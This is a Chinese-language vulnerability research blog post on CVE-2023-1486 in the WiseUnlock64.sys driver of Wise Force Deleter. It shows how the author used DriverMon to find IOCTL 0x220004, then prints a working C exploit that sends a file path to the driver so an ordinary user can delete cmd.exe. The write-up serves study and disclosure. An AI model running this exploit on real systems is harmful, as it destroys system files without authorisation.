


# 【第 16 話】CVE-2023-1486 研究－任意刪除檔案

## 文章大綱
這篇要研究 CVE-2023-1486 的漏洞成因，利用 DriverMon 觀察 IRP 的傳輸，藉此寫出攻擊腳本，達到任意刪除檔案。


## 介紹 CVE-2023-1486
首先來看看 [CVE-2023-1486](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1486) 在 MITRE 的描述。

A vulnerability classified as problematic was found in Lespeed WiseCleaner Wise Force Deleter 1.5.3.54. This vulnerability affects the function 0x220004 in the library WiseUnlock64.sys of the component IoControlCode Handler. The manipulation leads to improper access controls. Local access is required to approach this attack. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-223372.

直接用列點的方式抓重點。
- 軟體：Lespeed WiseCleaner Wise Force Deleter 1.5.3.54
- 元件：WiseUnlock64.sys
- 漏洞位置：0x220004
- 漏洞成因：Improper Access Controls

從我的 GitHub 下載 [WiseUnlock64.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1486/bin/WiseUnlock64.sys)。對驅動程式檔案點右鍵 => 內容 => 數位簽章，可以看到 WiseUnlock64.sys 的數位簽章資訊，是 2022 年 11 月 10 日的簽章。




## DriverMon 觀察
從我的 GitHub 下載 [WFDSetup_1.5.3.54.exe](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1486/bin/WFDSetup_1.5.3.54.exe)，在 VM 中安裝之後執行 Wise Force Deleter。



這次我們不逆向分析驅動程式，而是用 [zodiacon/DriverMon](https://github.com/zodiacon/DriverMon) 觀察。由於 Windows 10 1709 沒更新的話，可能無法執行目前最新的版本，所以我是用 [DriverMon 0.2-alpha](https://github.com/zodiacon/DriverMon/releases/tag/0.2-alpha)。

將 DriverMon 解壓縮到 VM 後執行，點選上方第二個按鈕。


DriverMon 會列舉所有已載入的驅動程式，選擇 WiseUnlock 後按 `OK`。最後按左上方的藍色三角形開始監控 IRP。


點選 Wise Force Deleter 的`加入檔案`，選一個正在被使用的檔案。下圖以 procexp64.exe 為例，也就是先執行 procexp64.exe 再從 Wise Force Deleter 選擇這個檔案。因為只有在檔案被開啟的狀況下，Wise Force Deleter 才會傳 IRP 給驅動程式強制刪除檔案。選擇檔案後點擊`解除鎖定並刪除`。


這時在 DriverMon 可以看到有一筆記錄跳出來，其中可以看到 Driver 名稱是 WiseUnlock、IoControlCode 0x220004、輸入長度 82 bytes、輸出長度 4 bytes。


點選 Data 欄位的 View 則可以看到輸入的內容就是刪除檔案的路徑。


## 攻擊腳本
從 DriverMon 記錄的資訊已經足以讓我們寫出攻擊腳本，因此可以寫入檔案路徑給 WiseUnlock64.sys 強制刪除任意檔案。
- Symbolic Link Name：WiseUnlock
- IoControlCode：0x220004
- 輸入：檔案路徑（寬字元）
- 輸入長度：檔案路徑長度
- 輸出長度：4

完整的專案也放在我的 GitHub [zeze-zeze/2023iThome](https://github.com/zeze-zeze/2023iThome/tree/master/CVE-2023-1486)。

```c
#include <iostream>
#include <Windows.h>
#include <winioctl.h>

#define SymLinkName L"\\\\.\\WiseUnlock"

int main(int argc, char* argv[])
{
    HANDLE hDevice = CreateFile(SymLinkName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_SYSTEM, 0);
    if (hDevice == INVALID_HANDLE_VALUE)
    {
        printf("Get Driver Handle Error with Win32 error code: %x\n", GetLastError());
        return 0;
    }

    // 寫入檔案路徑給 WiseUnlock64.sys 強制刪除任意檔案
    DWORD dwWrite;
    WCHAR data[] = L"\\??\\C:\\Windows\\System32\\cmd.exe";
    DeviceIoControl(hDevice, 0x220004, data, sizeof(data), data, 4, &dwWrite, NULL);

    CloseHandle(hDevice);
    return 0;
}
```

## 測試
在 VM 中安裝 [WFDSetup_1.5.3.54.exe](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1486/bin/WFDSetup_1.5.3.54.exe) 或者直接載入 [WiseUnlock64.sys](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1486/bin/WiseUnlock64.sys) 後用一般使用者執行 [CVE-2023-1486.exe](https://github.com/zeze-zeze/2023iThome/blob/master/CVE-2023-1486/bin/CVE-2023-1486.exe)，你系統的 cmd 就會被刪除，就再也打不開命令提示字元了，所以**務必在 VM 中測試**。

## 參考資料
- [CVE-2023-1486](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-1486)
- [WindowsKernelVuln/CVE-2023-1486](https://github.com/zeze-zeze/WindowsKernelVuln/tree/master/CVE-2023-1486)